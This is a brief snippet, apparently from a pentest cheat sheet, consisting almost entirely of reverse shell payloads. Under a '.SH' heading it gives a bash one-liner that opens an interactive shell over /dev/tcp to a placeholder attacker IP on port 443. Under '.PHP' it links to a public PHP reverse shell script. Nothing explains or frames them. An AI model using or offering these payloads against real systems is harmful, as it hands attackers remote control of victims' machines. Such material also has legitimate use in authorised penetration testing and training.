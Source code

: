 
#### .SH

````shell
#!/bin/bash

bash -i >& /dev/tcp/<IP>/443 0>&1 


````

#### .PHP

```` URL
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

````